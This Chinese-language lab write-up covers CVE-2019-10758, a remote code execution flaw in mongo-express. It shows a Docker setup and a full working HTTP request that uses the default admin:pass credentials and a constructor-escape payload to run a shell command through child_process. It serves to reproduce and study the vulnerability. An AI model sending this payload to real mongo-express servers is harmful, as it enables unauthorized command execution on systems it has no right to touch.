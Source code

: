 # mongo-express 远程代码执行漏洞 CVE-2019-10758

## 漏洞描述

mongo-express是一款mongodb的第三方Web界面，使用node和express开发。如果攻击者可以成功登录，或者目标服务器没有修改默认的账号密码（`admin:pass`），则可以执行任意node.js代码。

## 环境搭建

Vulhub执行如下命令启动一个0.53.0版本的mongo-express：

```bash
docker-compose up -d
```

环境启动后，访问`http://your-ip:8081`即可查看到Web页面。

## 漏洞复现

直接发送如下数据包，即可执行代码`this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")`：

```
POST /checkValid HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```

![image-20220226224214673](./images/202202262242754.png)

命令`touch /tmp/success`已成功执行：

![image-20220226224250076](./images/202202262242130.png)